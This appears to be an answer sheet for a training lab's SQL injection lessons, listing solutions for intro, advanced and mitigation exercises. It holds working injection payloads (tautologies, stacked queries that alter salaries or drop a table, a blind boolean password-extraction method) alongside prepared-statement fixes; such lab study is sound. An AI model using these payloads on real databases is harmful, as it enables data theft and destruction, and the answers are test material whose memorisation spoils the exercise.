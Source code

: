# SQL Injection (Intro)
2. SELECT department FROM employees WHERE userid = 96134
3. UPDATE employees SET department = 'Sales' WHERE last_name = 'Barnett'
4. ALTER TABLE employees ADD phone varchar(20)
5. GRANT ALL ON grant_rights TO unauthorized_user
9. SELECT * FROM user_data WHERE first_name = 'John' and last_name = 'Smith' or '1' = '1'
10. SELECT * From user_data WHERE Login_Count = 1 and userid= 1 or 1=1
11. ' OR 1 =1 --
12. '; UPDATE employees SET salary=100000 WHERE last_name = 'Smith' -- 
13. '; DROP TABLE access_log

# SQL Injection (Advanced)
3. SELECT * FROM user_data WHERE last_name = 'Smith'; SELECT * FROM user_system_data --'
5. tom' AND '1'='1
    returns: User {0} already exists please try to register with a different username.

   tom' AND '1'='2
    returns: User tom' AND '1'='2 created, please proceed to the login page.

   what means that register form changes output based on bool value returned by query.
   We will use script inject_script.py which sends 'tom\' AND substring(password,{password_index + 1},1)=\'{alphabet[alphabet_index]}' in put method to register field
6.
    1.4
    2.3
    3.2
    4.3
    5.3
    6.4

# SQL Injection (Mitigation)
5.
    getConnection
        PreparedStatement statement
    prepareStatement
    ?
    ?
    statement.setString(1, pName)
    statement.setString(2, pMail)

6.
try {
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    String query = "SELECT first_name, last_name, FROM users WHERE acct_id = ?";
    PreparedStatement statement = conn.prepareStatement(query);
    statement.setString(1, "sdsd");
    ResultSet results = statement.executeQuery();
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}